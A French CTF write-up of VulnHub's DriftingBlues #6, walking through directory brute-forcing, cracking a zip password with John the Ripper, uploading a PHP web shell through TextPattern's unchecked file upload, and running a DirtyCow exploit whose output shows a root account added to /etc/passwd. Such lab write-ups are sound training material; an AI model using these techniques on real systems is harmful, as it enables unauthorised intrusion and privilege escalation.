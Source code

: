 ```yaml
---
title: Solution du CTF DriftingBlues #6 de VulnHub
tags: [CTF, VulnHub]
---
```


Quick
-----

Petite présentation tout de même avant d’enchaîner en vitesse grand V. [Ce CTF](https://www.vulnhub.com/entry/driftingblues-6,672/) créé par [tasiyanci](https://twitter.com/tasiyanci) est un boot2root récupérable par VulnHub et de difficulté facile.  

La VM fait tourner un site qui nous accueille avec le message suivant :  

```
Drifting Blues Tech
please don't hack
enough is enough!!!
```

Amusant vu qu'on est sur le 6ème opus de cette saga de CTF. Oui quelque part on s'acharne :D   

Je lance Wapiti dessus avec tous les modules dispos. Le buster intégré me remonte pas mal de choses intéressantes :  

```
[*] Lancement du module buster 
Found webpage http://192.168.56.11/index.html 
Found webpage http://192.168.56.11/robots.txt 
Found webpage http://192.168.56.11/db 
Found webpage http://192.168.56.11/index 
Found webpage http://192.168.56.11/robots 
Found webpage http://192.168.56.11/textpattern/ 
Found webpage http://192.168.56.11/textpattern/LICENSE.txt 
Found webpage http://192.168.56.11/textpattern/index.php 
Found webpage http://192.168.56.11/textpattern/css.php 
Found webpage http://192.168.56.11/textpattern/README.txt 
Found webpage http://192.168.56.11/textpattern/images/ 
Found webpage http://192.168.56.11/textpattern/themes/ 
Found webpage http://192.168.56.11/textpattern/files/ 
Found webpage http://192.168.56.11/textpattern/README 
Found webpage http://192.168.56.11/textpattern/textpattern/ 
Found webpage http://192.168.56.11/textpattern/rpc/ 
Found webpage http://192.168.56.11/textpattern/LICENSE
```

TextPattern est un CMS et le README nous indique qu'il est ici en version 4.8.3. Ça tombe bien il y a sur exploit-db des exploits [comme celui ci](https://www.exploit-db.com/exploits/48943) pour cette version du logiciel.  

L'exploitation nécessite toutefois un compte que l'on a pas. Heureusement on trouve une piste dans le fichier *robots.txt* :  

```
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

Je m'exécute :  

```
feroxbuster -u http://192.168.56.11/ -w /fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt -n -x php,txt,zip,html
```

Il en ressort une archive spammer.zip protégée par mot de passe. Je génère le hash correspondant avec *zip2john* et *John the Ripper* casse ce dernier instantanément :  

```
myspace4         (spammer.zip/creds.txt)
```

Le fichier *creds.txt* obtenu contient des identifiants : *mayer:lionheart*.  

Sans surprise ils permettent de se connecter sur l'appli web. Maintenant parlons de l'exploit pour TextPattern. En le lisant on comprend qu'il ne fait rien de plus qu'utiliser la fonctionnalité d'upload qui ne vérifie pas le type de fichier.  

Pas besoin d'exploit donc, on va sur *Content* puis *Files*. Ensuite on sélectionne le fichier, on upload et voilà un shell bêtement à l'adresse */textpattern/files/shell.php*.  

Une fois un shell plus civilisé obtenu (merci *ReverseSSH*) je fouille sur le système et constate surtout qu'il n'y a pas d'utilisateurs classiques (disposant d'un dossier dans */home*). De plus LinPEAS se montre assez silencieux si ce n'est pour les exploits touchant la distribution.  

C'est de toute évidence le cheminement attendu car si un utilisateur avait été présent nous aurions pu passer outre en utilisant directement un exploit pour le kernel.  

Plus qu'à prendre un des exploits pour [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) :  

```
www-data@driftingblues:/tmp$ ./dirty g0tr00t 
/etc/passwd successfully backed up to /tmp/passwd.bak 
Please enter the new password: g0tr00t 
Complete line: 
firefart:fihv2UhZG2gL6:0:0:pwned:/root:/bin/bash 

mmap: 7f91e30e8000 
madvise 0 

ptrace 0 
Done! Check /etc/passwd to see if the new user was created. 
You can log in with the username 'firefart' and the password 'g0tr00t'. 

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd 
Done! Check /etc/passwd to see if the new user was created. 
You can log in with the username 'firefart' and the password 'g0tr00t'. 

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
firefart@driftingblues:/tmp# cd /root/ 
firefart@driftingblues:~# ls 
flag.txt 
firefart@driftingblues:~# cat flag.txt  

░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!

```


*Published January 20 2022 at 22:38*
